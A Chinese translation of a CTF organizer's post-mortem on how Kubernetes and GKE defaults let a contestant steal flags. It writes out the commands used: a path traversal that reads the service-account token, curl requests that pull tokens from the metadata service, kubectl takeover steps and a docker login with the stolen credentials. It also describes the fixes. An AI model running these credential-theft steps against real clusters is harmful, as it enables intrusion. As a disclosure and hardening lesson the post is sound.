

# 通过改造我们的基础设施来夺取 CTF 所有的国旗

> 原文：<https://medium.com/hackernoon/capturing-all-the-flags-in-bsidessf-ctf-by-pwning-our-infrastructure-3570b99b4dd0>

【2018 年 7 月编辑:这篇文章写于 2017 年，从那时起，快速发展的 k8s 世界发生了相当大的变化。几个注意事项:

*   *您现在可以用* `***automountServiceAccountToken: false***`禁用服务账户令牌的 *自动挂载*
*   *在 GKE 上，您使用* [*元数据代理*](https://cloud.google.com/kubernetes-engine/docs/how-to/metadata-concealment) *来阻止 pods 从元数据服务访问某些秘密。*
*   *这篇文章完全忽略了通过元数据服务可以获得的有趣的 k8s 秘密。看看这个* [*可怕的 bug 赏金报告*](https://hackerone.com/reports/341876) *的例子，看看如何通过访问这些秘密把一个 SSRF 变成 RCE。*
*   许多工作正在进行中，以支持 k8s 中的硬多租户，这将使举办 CTF 竞赛更加可行。

*现在来看原文……*

**TLDR**:CTF bside SSF 的挑战是在 Kubernetes 上使用[谷歌](https://hackernoon.com/tagged/google)容器引擎的 Docker 容器中进行的。由于这两个基础设施问题，有可能利用早期的挑战之一，窃取服务帐户密钥，然后使用这些密钥直接访问标志。其中一个问题被竞争对手发现了(但没有被利用)。

在 RSA 之前的那个周末(2 月 11 日—2 月 13 日)，我们为 BsidesSF 举办了“捕捉旗帜”竞赛。它的目标是初级/中级玩家，结果非常成功，有超过 500 个团队参加了国际比赛。我们决定在谷歌容器引擎(GKE)上运行 docker 容器中的所有挑战。我不会过多地探究这个决定，但作为一个有时间限制的小团队，Docker 和 Kubernetes 允许我们将精力集中在编写有趣的挑战上，并使部署、维护和扩展变得非常简单。虽然它对我们有用，但是有很多原因说明这些工具可能不适合 CTFs。

CTF 是黑客的乐园，许多挑战将允许竞争者在你的机器上运行任意代码。参赛者应该能够做他们想做的任何事情，只要他们不能干扰其他团队，破坏挑战，或者访问范围之外的资源(其他旗帜，记分牌等)。)因此，隔离挑战资源至关重要。在与其他一些 CTF 组织者交谈后，我了解到这种隔离通常是通过完全独立的主机、ESXi 或 Xen 下的虚拟机或简单的 chroot 监狱来实现的。使用 Docker，我们部署的许多挑战都在同一个主机上，隔离是由内核名称空间和控制组提供的——这是这项技术背后的 linux 内核特性。

Docker 和 Kubernetes 共同推出了新的攻击面，可以让竞争对手打破挑战隔离。即:

1.  **Linux 内核**。在一台机器上运行的所有容器共享主机的内核，并使用内核名称空间进行分隔。任何允许竞争对手绕过这些内核实施的攻击都可能允许他们逃离容器并访问资源以应对其他挑战。
2.  **Kubernetes API。**用足够的凭证访问它将使竞争者完全控制集群中的容器。获取其他挑战的标志就像运行:`kubectl exec a_pod — cat /flag .` Kubernetes 还管理 etcd 数据库中的集群状态，但幸运的是，GKE 禁止从集群的其他部分访问该数据库。
3.  **私有 Docker 注册表。在 GKE 上，Docker 图片通常存储在平台提供的私有 Docker 注册表中。在我们的例子中，其中一些图像包含挑战源代码和标志。如果竞争对手能够提取这些图像，他们将能够很容易地从中提取旗帜。**

让我们逐一浏览一下。

# 1.内核攻击面

Docker 文档有关于 Docker [安全模型](https://docs.docker.com/engine/security/security/)的非常详尽的文档。尽管容器通常不被认为是虚拟机的合适替代品，但我们认为我们足够信任 linux 内核*提供的隔离。*我们以无特权用户的身份在容器内运行所有挑战，需要网络隔离的挑战被部署到不同的集群。我们还计划使用 Kubernetes [容器安全上下文](https://kubernetes.io/docs/user-guide/security-context/)和应用 seccomp 概要文件，但遗憾的是没有时间做这些。无论哪种方式，容器逃逸肯定不是微不足道的，通常需要像 [Dirty Cow](https://dirtycow.ninja/) 这样的内核漏洞。似乎不太可能有人会把其中的一个拿出来给我们相对不为人知的、初级到中级的 CTF。

# 2.Kubernetes API

下一个强化任务是确保运行在容器内部的流程不能访问 Kubernetes API。不幸的是，这是我们研究失败的第一个地方。我们假设容器代表一个信任边界，并且在这些容器中运行的进程通常不需要访问或修改集群状态。运行容器的节点显然需要访问 API 来允许容器的调度，但是除非明确启用，否则从容器内部访问 API 是有意义的。CTF 的竞争对手@traviscline 很快证明这是错误的。

事实证明，当 pods(Kubernetes 对一组容器的抽象)被创建时，它们被自动分配了默认的服务帐户，并且创建了一个包含用于访问 Kubernetes API 的令牌的新卷。然后在`/var/run/secrets/kubernetes.io/serviceaccount`将该卷 [*装入容器*](https://kubernetes.io/docs/admin/service-accounts-admin/) 中的所有容器。该目录中的访问令牌是查看集群状态和在容器中执行任意命令所需的全部内容。

**如何偷旗**

从特拉维斯的角度来看，它是这样的:

> “Zumbo”挑战的第二阶段需要路径遍历攻击来读取文件系统上`/flag`中的文件。我利用这个漏洞读取了`/etc/hosts`，并注意到 Kubernetes 添加的默认注释，表明这个挑战正在 Kubernetes 上的一个容器中运行。

```
# Kubernetes-managed hosts file.
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback=
fe00::0 ip6-localnet
fe00::0 ip6-mcastprefix
fe00::1 ip6-allnodes
fe00::2 ip6-allrouters
172.17.0.4      apache-1336197910-847nq
```

> 从那里我使用相同的路径遍历漏洞来访问`/var/run/secrets/kubernetes.io/serviceaccount`中的秘密
> 
> 最容易完成的事情是简单地在系统上获得一个可执行的`kubectl` 二进制文件。Zumbo 容器有 curl 和一个可写/可执行的`/tmp`，所以这里没有障碍。虽然我们可以自己编写 api 请求，并将其发送给 getent 主机 kubernetes。kubectl 使得集群危害变得微不足道，因为它将使用 serviceaccount 令牌，而无需额外提示。
> 
> 公开内部集群服务(如仪表板)并启动具有外部网络连接的新容器展示了集群接管并提供了持久性选项。
> 
> 在这种情况下，集群管理意味着通过`kubectl exec`对所有挑战进行完整的文件系统访问。对于大多数挑战，这意味着标志是直接可读的。我选择提醒组织者，避免破坏其他人的兴致。
> 
> 这里[展示了所采取步骤的粗略重现。](https://gist.github.com/tmc/8cd2364f7b6702ac6318c64a3d17e32d)
> 
> 在 retrospect 中，通过识别公共 ip 和配置本地客户端，远程群集访问会更容易。类似于`curl -k -H ‘Authorization: Bearer ${serviceaccount_token} [https://kubernetes/api](https://kubernetes/api)`的环境内请求公开了 apiserver 的 public。拥有这两个值意味着您可以从任何机器设置集群管理访问，如下所示:

```
kubectl config set-cluster pwned — server=https://${public_ip} — insecure-skip-tls-verifykubectl config set-credentials pwn — token=${serviceacount_token}kubectl config set-context pwned — cluster=pwned — user=pwnkubectl config use-context pwned
```

> 回忆录:



**修复此问题**

接到通知后，我努力尽快解决问题。浏览文档，似乎没有一个简单的方法来禁用这个特性。通过更多的研究，我在 Github 上发现了这个问题。显然，API 凭证的自动挂载是为了向后兼容而保留的特性，当时没有办法禁用它。解决方法是在 Kubernetes 挂载服务帐户凭据的位置挂载一个空的只读卷。

```
 volumeMounts:
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
      name: no-api-access-please
      readOnly: true
volumes:
  - name: no-api-access-please
    emptyDir: {}
```

**含义**

事后看来，这是一个非常明显的疏忽，如果更彻底地通读文档，本可以很容易地避免。也就是说，我认为这是一个不安全的默认设置，应该立即禁用。这种行为可能会让攻击者从相对简单的 web 应用程序错误(文件泄露)转向整个基础结构的破坏。Kubernetes 社区很清楚这个问题。长期解决方案是基于角色的访问控制插件，它允许更细粒度的访问控制，并可用于限制服务帐户可以访问的资源。这个特性最近被提升到了 Kubernetes 测试版，并且很快会进入 GKE。

# 3.私人码头登记处

这是我们犯第二个错误的地方。Google 平台上的私有 docker 注册表只是 Google 云存储中的一个桶。集群中的节点需要能够从注册表中提取，因此只读凭证通过在[实例元数据](https://cloud.google.com/compute/docs/storing-retrieving-metadata#querying)中传递的服务帐户凭证提供给节点，这些凭证可通过在`[http://169.254.169.254](http://169.254.169.254)` 监听的 http 服务提供给节点。不幸的是，我们在计划时忽略了这个重要的细节。因为我们的一些容器将标志嵌入到映像中，而不是作为卷安装，所以有可能在其中一个挑战中使用远程代码执行漏洞来读取服务帐户凭据，然后提取我们的容器。

**如何偷旗:**

使用 RCE 或 SSRF，攻击者会向元数据服务发出请求，获取默认的服务帐户电子邮件和访问令牌。

```
# Assuming you have code execution within the container$ curl [http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/email](http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/email)something-something@developer.gserviceaccount.com$ curl -s [http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token](http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token){"access_token": "something-something", "expires_in":1881,"token_type":"Bearer"}
```

使用这两条信息，您可以使用 Docker 直接从我们的私有注册表中提取图像。

```
# Using the credentials you have stolen from the previous steps
$ docker login -e <email> -u oauth2accesstoken -p "<access token>" [https://gcr.io](https://gcr.io)$ docker pull gcr.io/bsides-ctf-2017/zumbo# Extract flags from container..
```

这假设您有一些内部知识:我们项目的名称和图像名称，这两个名称都不会太难猜测，并且可能通过其他方式发现。

**修复此问题**

我们可以通过确保所有挑战资源(标志、二进制文件、源代码等)来避免这个问题。)通过安装的卷添加到容器中。如果我们对所有的挑战都这样做，我们的图像基本上可以是公开的——提取它们不会给 CTF 参与者带来任何有趣的东西。对于我们的一些挑战来说，从图像中完全删除私有资源是很困难的。更理想的设置是拒绝从容器内部访问元数据服务。我还没有尝试过这一点，但是通过使用像 Lyft 的 metadataproxy 这样的工具来代理从容器到元数据服务的连接，这可能是可以实现的。

**牵连**

与前一个问题不同，这当然不是一个不安全的默认，而是这个平台是如何设计工作的。它并不局限于 GKE，谷歌云和 AWS 都依赖 http 服务作为向实例分发元数据和某些秘密的方法，使这些秘密可供机器上运行的任何进程使用。在这些平台上进行构建时，了解这一点绝对是非常有用的。

# 结论

这是一个有趣的实验，但我们可能不会在我们的下一个 CTF 中使用相同的设置。虽然 Kubernetes 使得一切都可以很容易地启动和运行，但它增加了大量的复杂性和攻击面。从根本上说，它不是为运行不受信任的代码而设计的，因此，在威胁模型涉及让攻击者执行任意代码的情况下，它可能不是捕获标志的好选择。

# 更多阅读

为了更好地概述 GKE 上容器的进一步加固选项以及 Kubernetes [安全](https://hackernoon.com/tagged/security)路线图，请查看 [Alex Mohr 和 Jessie Frazelle 在 Google Next 2017 上的演讲](https://www.youtube.com/watch?v=Cd4JU7qzYbE)。这是一个非常精彩的演讲，我很遗憾它没有在两个月前发表。

保护自托管 Kubernetes 集群本身就是一件棘手的事情，我所见过的最好的指导来自 [Jesse Endahl 在 BsidesSF 2017](https://www.youtube.com/watch?v=BER8uridVIs) 上的演讲。Kelsey Hightower 还维护了一个很棒的关于建立 Kubernetes 集群的教程[。](https://github.com/kelseyhightower/kubernetes-the-hard-way)

如果你想了解更多关于 Docker 安全模型和容器安全性的知识，请查看 NCC 关于容器安全性的白皮书。

想聊聊 CTF、集装箱或其他与安全相关的话题吗？在 Twitter 上关注[我](https://twitter.com/CornflakeSavage)。

[](http://bit.ly/HackernoonFB)[](https://goo.gl/k7XYbx)[](https://goo.gl/4ofytp)

> [黑客中午](http://bit.ly/Hackernoon)是黑客如何开始他们的下午。我们是 [@AMI](http://bit.ly/atAMIatAMI) 家庭的一员。我们现在[接受投稿](http://bit.ly/hackernoonsubmission)并乐意[讨论广告&赞助](mailto:partners@amipublications.com)机会。
> 
> 如果你喜欢这个故事，我们推荐你阅读我们的[最新科技故事](http://bit.ly/hackernoonlatestt)和[趋势科技故事](https://hackernoon.com/trending)。直到下一次，不要把世界的现实想当然！

